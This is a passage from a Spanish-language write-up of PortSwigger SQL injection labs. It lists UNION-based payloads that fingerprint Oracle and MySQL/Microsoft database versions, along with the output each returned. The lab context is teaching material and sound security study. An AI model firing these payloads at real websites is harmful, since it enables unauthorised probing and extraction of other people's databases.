 ```mysql
' union select NULL,NULL from dual-- -
```

Eso de `from dual` es una regla que se tiene que cumplir al ser `Oracle` y para hacer las otras inyecciones como lo que nos piden aqui que es ver la version y base de datos de esa pagina web hariamos lo siguiente...

Si nos vamos a la ayuda que nos da de la misma pagina de los creadores de `PortSwigger` encontrariamos esto de `Oracle`...

```
SELECT banner FROM v$version
```

Por lo que tendriamos que cambiar uno de los `NULL` por `banner` y donde pone `v$version` lo cambiaremos por `dual`...

```mysql
' union select NULL,banner from v$version-- -
```

Info:

```
|CORE 11.2.0.2.0 Production|
|NLSRTL Version 11.2.0.2.0 - Production|
|Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production|
|PL/SQL Release 11.2.0.2.0 - Production|
|TNS for Linux: Version 11.2.0.2.0 - Production|
```

### # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

En este caso tenemos que saber la version de la base de datos de `Microsoft` sabiendo que hay 2 columnas todavia haremos lo siguiente...

Guiandonos de la chuleta de la propia pagina en la seccion de `Microsoft` pondria algo tal que asi...

```
SELECT @@version
```

Por lo que hariamos lo siguiente...

```mysql
' union select NULL,@@version-- -
```

Y con esto ya habriamos resuelto esta parte...

Info:

```
8.0.36-0ubuntu0.20.04.1
```

### Lab: SQL injection attack, listing the database contents on non-Oracle databases
